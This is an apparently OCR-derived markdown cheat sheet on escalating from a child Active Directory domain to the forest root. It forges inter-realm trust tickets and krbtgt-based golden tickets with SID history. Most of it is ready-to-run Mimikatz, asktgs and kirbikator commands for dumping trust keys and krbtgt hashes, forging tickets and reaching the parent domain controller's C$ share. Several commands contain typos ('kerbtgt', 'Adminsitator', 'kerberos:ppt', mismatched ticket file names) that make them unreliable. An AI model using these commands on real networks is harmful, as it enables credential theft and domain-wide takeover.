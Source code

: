     ![domain-trust](_assets/domain-trust.jpg)
- Approaches 
  - Trust tickets
    - `Inter-realm TGT` (sent along with request for TGS) to other DC is validated by 
      - Decrypting `Inter-realm TGT` with `Trust Key`
    - If you have trust-key, you can  forge trust-tickets
      - On child domain, to get trust-key: `Invoke-Mimikatz -Command '"lsadump::trust /patch"'`
      - FOrge inter-realm TGT: `Invoke-Mimikatz -Command '"Kerberos::golden /domain:example.powershell.local /sid<sid> /sids:<sid-history-of-enterprise-admin> /rc4:<rc4> /user:Administrator /service:kerbtgt /target:powershell.local /ticket:trust_tkt.kirbi"'`
    - Get TGS for a service using forged trust ticket: 
      - `asktgs.exe trust_tht.kirbi CIFS/dc.parent.powershell.local` 
    - Access
      - `kirbikator.exe lsa example.kirbi`
      - `ls \\dc.parent.powershell.local\c$`
  - Krbtgt hash
    - Similar to Golden Ticket
    - Once you have kerbtgt hash of current domain, use SID history to forge a TGT:
      - `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
      - `Invoke-Mimikatz -Command '"Kerberos::golden /user:Adminsitator /domain:example.powershell.local /sid<sid> /krbtgt:<hash> /sids:<sid-history-of-enterprise-admin> /ticket:krb_tkt.kirbi"'`
    - On a machine in the other domain: 
      - `Invoke-Mimikatz -Command '"kerberos:ppt krb_tkt.kirbi"'`
